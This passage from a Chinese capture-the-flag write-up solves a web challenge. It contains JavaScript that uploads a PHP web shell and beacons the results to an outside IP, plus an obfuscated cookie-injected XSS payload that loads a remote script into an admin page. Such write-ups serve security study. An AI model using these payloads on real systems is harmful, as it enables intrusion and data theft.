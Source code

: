 ```js
          "\r\n" +
          "\x3c?php eval($_GET[\'test\']);?\x3e\r\n" +
          "-----------------------------32762167253918--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);

        xhr.onload=function(e)
        {
            (new Image()).src='http://106.14.61.185:7778/index.php?'+xhr.response;
        }
        xhr.send(new Blob([aBody]));
      }
submitRequest();
```

![testlocal](https://mo-xiaoxi.github.io/img/post/0ctf/testlocal.png)

可以看到，其实上传是被执行了，但是因为不是同源所以阻塞了。上传给admin，admin调用的时候，就能正常执行

最后的payload

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
    </head>
    <body>
     <script>
    function get()
    {
        var payload = "<iframe src='javascript:eval(String.fromCharCode(118,97,114,32,115,115,115,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,34,115,99,114,105,112,116,34,41,59,115,115,115,46,115,114,99,61,34,104,116,116,112,58,47,47,49,48,54,46,49,52,46,54,49,46,49,56,53,47,102,105,108,101,115,47,120,115,115,46,106,115,34,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,115,115,115,41,59))'>"+"</i"+"frame>;";//payload所在
        document.cookie="username=" + payload + " domain=.government.vip; path=/";
        document.body.appendChild(document.createElement('iframe')).src='http://admin.government.vip:8000';
        //location.href = "http://admin.government.vip:8000/";
    }
    get();
    </script>
    </body>
</html>
```

得到flag{xss_is_fun_2333333}

这里的坑：
